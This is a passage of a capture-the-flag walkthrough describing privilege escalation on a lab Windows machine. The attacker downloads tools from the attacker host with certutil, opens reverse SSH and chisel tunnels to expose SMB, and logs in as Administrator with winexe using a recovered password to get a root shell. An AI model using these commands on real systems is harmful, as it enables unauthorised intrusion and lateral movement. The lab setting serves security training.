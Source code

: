 ```
```
- Let's try to use the password on the local smb, but first we need to do some port forwarding
- We need to get plink in our attacking machine and transfer it to the target
  - `wget https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe`
  - `python3 -m http.server 80`
  - In our target we browse to a directory where we have write access (Alfred's desktop for instamnce) and we get plink `certutil.exe -urlcache -f http://10.10.14.4/plink.exe plink.exe`
- We are going to launch ssh in our kali in our /etc/ssh/sshd_config PermitRootLogin should be set to yes `PermitRootLogin yes`
- `service ssh start`
- Now we can port forward smb with plink from our target machine: `plink.exe -l root -pw your-kali-password-here -R 445:127.0.0.1:445 10.10.14.4` 
  - For more infor on this check out this [article by UY](https://informationsecurity.medium.com/remote-ssh-tunneling-with-plink-exe-7831072b3d7d)
- For some reason I am not able to connect to my own machine using ssh so I gonna try with chisel
- On my kali `chisel server --reverse` (it going to listen on port 8080)
- On the target `.\chisel.exe client 10.10.14.4:8080 R:445:127.0.0.1:445`
- It seems to work
![image](https://user-images.githubusercontent.com/96747355/161387046-ca2121ae-98af-4e64-8c75-909d33959675.png)  
![image](https://user-images.githubusercontent.com/96747355/161387144-75e25b0e-43e6-43dd-953b-2a12fb3f9436.png)  
- Now we can use winexe from our machine and connect with administrator using the discovered password `winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"`
- And we get a root shell!
![image](https://user-images.githubusercontent.com/96747355/161387309-0d3782c8-9381-4c24-8c46-c2775e1f6b5a.png)
- And we can grab the root flag  
